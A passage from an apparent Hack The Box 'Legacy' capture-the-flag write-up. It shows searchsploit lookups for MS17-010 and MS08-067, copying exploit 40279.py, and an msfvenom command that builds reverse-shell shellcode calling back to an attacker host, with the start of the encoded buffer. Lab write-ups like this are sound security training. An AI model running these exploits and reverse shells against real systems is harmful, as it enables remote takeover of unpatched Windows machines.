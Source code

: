```c
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                   | windows_x86-64/remote/41987.py
---------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can use manual exploits and metasploit exploit for this ```smb-vuln-ms17-010``` vulnerability

But we are targetting it on ```Windows XP```, most of the exploits from searchsploit are favoured for ```Windows 7```

For exploiting ```Eternal Blue``` in ```Windows XP```, I would suggest you take a look on this [blog](https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/)


## Gaining Access

### MS08-067 manual exploit

Lets copy our ```ms08-067``` exploit to our working directory,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Legacy]
└─$ searchsploit -m windows/remote/40279.py
  Exploit: Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)
      URL: https://www.exploit-db.com/exploits/40279
     Path: /usr/share/exploitdb/exploits/windows/remote/40279.py
File Type: Python script, ASCII text executable, with very long lines

Copied to: /home/aidenpearce369/HTB/Legacy/40279.py
```

When we try to run it, we need to make sure that we have the right dependencies

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Legacy]
└─$ python2 40279.py 
Install the following library to make this script work
Impacket : http://oss.coresecurity.com/projects/impacket.html
PyCrypto : http://www.amk.ca/python/code/crypto.html
```

This code has some indentation issues, so I modified it and renamed it

After installing [Impacket](https://github.com/SecureAuthCorp/impacket) and [PyCrypto](https://pypi.org/project/pycrypto/),

Lets generate our ```shellcode``` through ```msfvenom```, which should be placed in our exploit code to trigger the ```reverse shell```

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
```